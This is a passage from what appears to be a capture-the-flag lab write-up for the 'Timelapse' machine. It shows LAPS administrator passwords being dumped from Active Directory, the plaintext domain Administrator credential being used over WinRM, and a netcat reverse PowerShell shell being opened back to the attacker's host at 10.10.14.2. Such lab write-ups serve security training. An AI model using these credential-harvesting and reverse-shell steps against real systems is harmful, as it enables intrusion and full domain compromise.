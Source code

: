 -----------

### Step 3
Enumerating the directories we find `laps.ps1`
```powershell
PS C:\Users\svc_deploy\Desktop> type laps.ps1
$Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
$computers | Export-Csv -path c:\users\danny\desktop\"LAPS-$((Get-Date).ToString("MM-dd-yyyy")).csv" -NoTypeInformation
```

Run the script:
```powershell
PS C:\Users\svc_deploy\Desktop> ./laps.ps1

Name  DnsHostName        ms-Mcs-AdmPwd            ms-Mcs-AdmPwdExpirationTime
----  -----------        -------------            ---------------------------
WEB01                                                                        
DEV01                                                                        
DB01                                                                         
DC01  dc01.timelapse.htb 6+e(2G,L;TK5+eGy%gJ8s.2X 132936070633235489
```

A new set of creds: `Administrator:6+e(2G,L;TK5+eGy%gJ8s.2X`

```powershell
PS C:\Users\svc_deploy\Desktop> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
PS C:\Users\svc_deploy\Desktop> $p = ConvertTo-SecureString '6+e(2G,L;TK5+eGy%gJ8s.2X' -AsPlainText -Force
PS C:\Users\svc_deploy\Desktop> $c = New-Object System.Management.Automation.PSCredential ('Administrator', $p)
PS C:\Users\svc_deploy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
timelapse\administrator

PS C:\Users\svc_deploy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {//10.10.14.2/share/nc64.exe 10.10.14.2 4499 -e powershell}

➜  timelapse rlwrap nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.152] 64806
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

--------------

### Step 4
The flag, `root.txt`, is not in it's normal directory (`C:\Users\Administrator\Desktop\root.txt`). 
Looking around we find the flag in user `TRX` directory.
